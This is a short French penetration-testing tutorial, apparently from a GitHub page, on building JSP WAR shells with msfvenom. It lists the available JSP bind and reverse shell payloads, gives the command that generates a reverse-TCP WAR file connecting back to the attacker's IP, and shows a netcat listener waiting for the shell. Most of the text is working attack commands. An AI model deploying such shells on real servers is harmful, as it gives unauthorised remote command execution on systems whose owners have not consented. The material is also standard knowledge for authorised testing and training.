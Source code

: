 Comment générer un shell War JSP inversé, lié et intégré au navigateur. Cela couvrira la génération de charges utiles avec MSFVenom et la création manuelle d'un fichier war à partir de nos propres fichiers JSP.
# JSP War Shell MSFVenom

En utilisant l' `msfvenom`outil intégré à Kali, nous pouvons voir quels shells nous avons disponibles :
`root@kali:~# msfvenom --list payloads | grep jsp`
    `java/jsp_shell_bind_tcp                             Listen for a connection and spawn a command shell`
    `java/jsp_shell_reverse_tcp                          Connect back to attacker and spawn a command shell`
`root@kali:~#`

Nous pouvons vérifier quels paramètres doivent être spécifiés en utilisant :
`msfvenom -p java/jsp_shell_bind_tcp --list-options`
`msfvenom -p java/jsp_shell_reverse_tcp --list-options`

`msfvenom -p java/jsp_shell_reverse_tcp  LHOST=mon_IP LPORT=3155 -f war > shell.war`

Un écouteur netcat peut être configuré pour écouter la connexion en utilisant :
`nc -nvlp 3155`